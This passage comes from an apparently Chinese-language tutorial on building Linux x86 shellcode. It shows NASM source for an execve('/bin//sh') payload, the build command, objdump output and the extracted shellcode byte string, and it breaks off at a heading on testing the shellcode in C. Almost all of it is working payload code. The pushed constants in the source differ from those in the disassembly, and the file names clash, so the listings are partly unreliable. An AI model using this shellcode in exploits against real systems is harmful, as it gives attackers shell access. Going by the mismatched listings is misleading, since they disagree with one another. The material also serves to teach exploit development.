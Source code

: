 ```assembly
; create shellcode.nasm
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f6e  ;Pushing /sh
push    0x69622f2f  ;Pushing //bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
```

注：在`Unix-like`平台，路径中包含**连续**多个`/`并无影响。这样由于栈地址对齐的原因，可以将`/bin/sh`改为`/bin//sh`或`//bin/sh`。同时上面是以`little-endian`模式入栈的，**系统调用号**存放在`eax`中。

最后栈中数据存放、指针位置如图：

![Screen Shot 2013-04-05 at 5.19.18 PM](http://otoxza4eu.bkt.clouddn.com/blog/082030.png)

使用`nasm`命令编译汇编代码：`nasm -f elf shellcode.asm`，其中`-f elf`默认生成`elf32`格式，输出的目标文件后缀为`.o`，与c语言默认输出的`a.out`不同:-)

```assembly
$ objdump -d -M intel shellcode.o
shellcode.o:     file format elf32-i386

Disassembly of section .text:

00000000 <.text>:
   0:	31 c0                	xor    eax,eax
   2:	50                   	push   eax
   3:	68 2f 2f 73 68       	push   0x68732f2f
   8:	68 2f 62 69 6e       	push   0x6e69622f
   d:	89 e3                	mov    ebx,esp
   f:	50                   	push   eax
  10:	89 e2                	mov    edx,esp
  12:	53                   	push   ebx
  13:	89 e1                	mov    ecx,esp
  15:	b0 0b                	mov    al,0xb
  17:	cd 80                	int    0x80
```

这样就可以**提取**出Shellcode**字节码**: 

```sh
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

#### 使用C语言测试ShellCode
